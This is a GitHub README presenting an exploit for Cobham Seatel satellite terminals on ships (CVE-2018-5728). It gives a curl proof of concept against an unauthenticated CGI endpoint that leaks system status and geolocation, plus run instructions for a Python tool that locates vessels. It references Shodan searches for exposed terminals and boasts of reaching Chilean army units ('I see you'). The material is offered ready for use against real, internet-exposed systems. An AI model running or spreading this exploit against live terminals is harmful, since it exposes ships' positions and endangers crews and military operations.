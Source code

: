 # Terminales Seatel 
Las embarcaciones que ocupan la plataforma satelital Seatel (de la firma Cobham), cuenta con una serie de vulnerabilidades sobre los servicios de la misma terminal, que podría permitir fácilmente a terceros no autorizados entre otras cosas conocer su geolocalización.

![seatel_home](img/Radomos.jpg) 


#  [Exploit] Terminales Seatel 

	[*] Exploit Title:      "Sensitive exposure from Seatel satellite terminal" 
	[*] CVE:                 CVE-2018-5728
	[*] CVSS Base Score v3:  7.1 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:F/RL:W/RC:C
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	

### Simple PoC:

```
	$> curl "http://<seatel_host>:<port>/cgi-bin/getSysStatus"

```
## In the Wild:
![seatel_dorks_0](img/shodan_poc_1.png) 


# TOOL: "Seatel exposed ship"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/seatel_terminals.git
	usr@pwn:~$ cd seatel_terminals
	Usr@pwn:~$ python seaTel.py --host <host>

## help

	usage: seaTel.py [-h] [-v] --host HOST [--port PORT]

	[+] Where are you ship ?

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port (default 80)

	usr@pwn:~$ python seaTel.py --host <host>


## Pocs (Output) :
![seatel_poc_4](img/poc_tool_1.png)
![seatel_poc_4](img/poc_tool_2.png)


### Extra: CHILE ARMY !!!
![chile_army_1](img/2.jpg)
![chile_army_2](img/4.jpeg)


### Blog:
https://misteralfa-hack.blogspot.com/2019/08/cobham-terminales-satelitales-seatel.html


I see you... ! xd
